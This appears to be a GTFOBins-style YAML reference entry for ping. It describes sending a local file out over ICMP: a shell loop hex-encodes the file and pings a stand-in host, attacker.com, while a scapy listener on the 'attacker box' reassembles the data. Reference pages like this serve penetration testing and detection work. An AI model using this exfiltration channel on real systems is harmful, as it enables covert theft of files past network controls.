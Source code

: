 ```yaml
---
description: send ICMP ECHO_REQUEST packets to network hosts.
functions:
  file-upload:
    - description: |
        To collect the file run the following on the attacker box:

            python3 ping_reciver.py

        ```
        #!/usr/bin/python3
        import sys
        try:
            from scapy.all import *
        except:
            print("Scapy not found, please install scapy: pip install scapy")
            sys.exit(0)

        def process_packet(pkt):
            if pkt.haslayer(ICMP):
                if pkt[ICMP].type == 8:
                    data = pkt[ICMP].load[-4:]
                    print(f'{data.decode("utf-8")}', flush=True, end="", sep="")

        sniff(iface="eth0", prn=process_packet)
        ```
        Send a local file via ICMP.
      code: |
        RHOST=attacker.com
        LFILE=file_to_read
        xxd -p -c 4 $LFILE | while read line; do
        ping -c 1 -p $line $RHOST
        done
---
```

